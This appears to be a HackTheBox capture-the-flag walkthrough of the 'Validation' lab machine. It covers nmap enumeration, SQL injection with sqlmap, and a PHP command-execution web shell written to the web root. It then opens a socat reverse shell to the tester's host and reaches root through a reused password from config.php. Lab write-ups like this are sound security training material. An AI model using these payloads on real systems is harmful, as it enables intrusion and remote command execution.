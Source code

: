 ```yaml
---
title: "Validation — HackTheBox (Walkthrough)"
date: "2024-10-09T12:13:01+05:00"
comments: false
socialShare: true
draft: false
toc: true
author: "bericontraster"
description: "Welcome Reader, Today we'll hack Validation from HackTheBox. Linux -- Easy"
---
```


![Validation Cover Image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ppAEyEHSAdiCKyy29PSUXA.png "[Validation Cover Image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ppAEyEHSAdiCKyy29PSUXA.png)")

Welcome Reader, Today we'll hack Validation from HackTheBox. Linux -- Easy

## Enumeration
We will start with an nmap scan.

```bash
~ $ nmap -sC -sV -A 10.10.11.116 -p1-10000
Nmap scan report for 10.10.11.116
Host is up (0.19s latency).

PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   202.75 ms 10.10.14.1
2   202.83 ms 10.10.11.116
```

---
### Web Server

Taking a look at the website.

![alt text](image.png)

Let's do SQL injection using [sqlmap](https://github.com/sqlmapproject/sqlmap).

> SQLMap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.
```bash
POST / HTTP/1.1
Host: 10.10.11.116
Content-Length: 30
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.116/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: user=5d56f010021ebd2c4d8df30a4b971611
Connection: close

username=htb&country=Brazil
```
```bash
sqlmap -r valid --batch
```

![alt text](image-1.png)

Further Enumeration of database.

```bash
sqlmap -r valid --batch --banner --current-user --current-db --is-dba
```

![alt text](image-2.png)

Further checking my privileges I noticed that I could write files to the server. We can confirm that with SQLMap.

```bash
sqlmap -r valid --batch --privileges
```

## Initial Foothold

Let upload the a web shell using SQLMap.

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

```bash
sqlmap -r valid --batch --file-write=shell.php --file-dest=/var/www/html/shell.php
```

![alt text](image-3.png)

I used to pop a reverse shell.
> Socat (for SOcket CAT) establishes two bidirectional byte streams and transfers data between them.

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:4444
```

![alt text](image-4.png)

![alt text](image-5.png)

## Privileges Escalation

Cheking the config.php file I found a password I tried that password for root and It worked lol.

![alt text](image-6.png)

Thanks for reading — Happy Hacking :)